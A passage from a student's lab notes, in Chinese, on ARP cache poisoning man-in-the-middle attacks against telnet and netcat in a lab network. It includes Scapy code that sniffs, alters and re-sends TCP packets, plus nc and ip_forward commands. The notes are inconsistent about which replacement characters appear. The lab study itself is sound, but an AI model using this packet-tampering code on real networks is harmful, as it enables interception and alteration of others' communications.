 ```python
			send(newpkt)

		################################################################
	elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
		# Create new packet based on the captured one
		# Do not make any change

		newpkt = IP(bytes(pkt[IP]))
		del(newpkt.chksum)
		del(newpkt[TCP].chksum)
		send(newpkt)

f = 'tcp'
pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
```

sysctl net.ipv4.ip_forward=0后，可以看到在远程登陆时输入的字母全变成了Z字符，攻击生效


![[大三下/网络与信息安全/实验二/attachments/41.png]]

![[大三下/网络与信息安全/实验二/attachments/42.png]]

# Task 3: MITM Attack on Netcat using ARP Cache Poisoning
这个任务类似于任务2，除了主机A和B使用netcat而不是telnet进行通信。主机M希望拦截它们的通信，因此它可以对A和B之间发送的数据进行更改。您可以使用以下命令在A和B之间建立netcat TCP连接：

```
On Host B (server, IP address is 10.9.0.6), run the following:
# nc -lp 9090
On Host A (client), run the following:
# nc 10.9.0.6 9090
```

此实验与前序实验一样，不用改代码，
只是用nc命令测试当开启路由（sysctl net.ipv4.ip_forward = 1），并停止运行telnet攻击脚本时，nc的内容都能正常被接收。

```
# sysctl net.ipv4.ip_forward=0
```

但是一旦关闭路由（置0），再次执行telnet，即可看到仍旧是所有字母都被替换成了@，攻击成功

```python
			# replace d sequence
			data_list=list(data)
			if len(data_list)>=5: 
			    data_list[0] = ord('f')  
			    data_list[1] = ord('r')  
			    data_list[2] = ord('a')  
			    data_list[3] = ord('n')  
			    data_list[4] = ord('k')
			newdata = bytes(data_list)	
			#


```

